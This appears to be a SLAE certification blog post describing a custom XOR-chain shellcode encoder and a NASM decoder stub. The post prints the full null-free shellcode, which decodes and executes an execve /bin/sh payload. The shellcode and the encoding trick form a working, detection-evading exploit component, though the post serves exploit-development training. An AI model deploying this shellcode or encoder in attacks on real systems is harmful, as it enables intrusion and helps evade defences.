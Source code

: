 # 4. Shellcode Encoder/Decoder

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a custom encoding scheme with a script to encode a payload and a decoder written in assembler to decode and execute the payload. The goal is to avoid null bytes while making the decoder as small as possible.

## Solution

The custom encoding scheme will take a set byte value, _IV_, and XOR the first byte of the payload, _P_, with it (``P'_0 = P_0 ^ IV``). The encoder will then XOR the next byte of the payload with the modified first byte, the next byte with the modified second byte, and so on (``P'_i = P_i ^ P'_i-1``). The decoder will simply perform these operations in reverse.

To make the decoder written in assembler a bit simpler, the encoder will start from the back, so the decoder can start from the front. The encoder is written in Python 3 and can be found here: [encoder.py](https://github.com/SpacePlant/slae32/blob/main/encoder.py)

The encoder is run with an IV of 42 on the raw bytes of the "execve-stack" payload (/bin/sh version):

```sh
$ python3 encoder.py 42 < execve-stack_raw > execve-stack_encoded
```

The decoder will get the address of the encoded payload:

```nasm
global _start

payload_size equ 25 ; payload size without iv

section .text

_start:
    ; Copy the address of the encoded payload to ESI.
    jmp call_decoder

...

call_decoder:
    call decoder
    payload: db 0x46, 0x77, 0xb7, 0xe7, 0x8f, 0xa0, 0x8f, 0xfc, 0x94, 0xfc, 0xd3, 0xb1, 0xd8, 0xb6, 0x3f, 0xdc, 0x8c, 0x05, 0xe7, 0xb4, 0x3d, 0xdc, 0x6c, 0x67, 0xaa, 0x2a
```

It will then loop through the encoded payload and decode the bytes one by one and finally jump to the decoded payload:

```nasm
decoder:
    pop esi
    ; Initialize ECX to the payload size to use it as a loop counter.
    xor ecx, ecx
    mov cl, payload_size
    xor eax, eax

decode:
    ; Decode a byte of the payload and loop.
    mov al, [esi + 1]
    xor [esi], al
    inc esi
    loop decode
    
    ; Execute the payload.
    jmp payload
```

The complete source code can be found here: [decoder.nasm](https://github.com/SpacePlant/slae32/blob/main/decoder.nasm)

## Results

The assembled decoder is 50 bytes including the encoded payload (25 bytes) and the IV (1 byte) and contains no null bytes.

```sh
$ shellcode=$(for i in $(objdump -d decoder | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\xeb\x11\x5e\x31\xc9\xb1\x19\x31\xc0\x8a\x46\x01\x30\x06\x46\xe2\xf8\xeb\x05\xe8\xea\xff\xff\xff\x46\x77\xb7\xe7\x8f\xa0\x8f\xfc\x94\xfc\xd3\xb1\xd8\xb6\x3f\xdc\x8c\x05\xe7\xb4\x3d\xdc\x6c\x67\xaa\x2a
$ echo $shellcode | tr -cd 'x' | wc -c
50
```

The decoder is executed successfully using the C template:

![Execve executed](images/encoder.png)
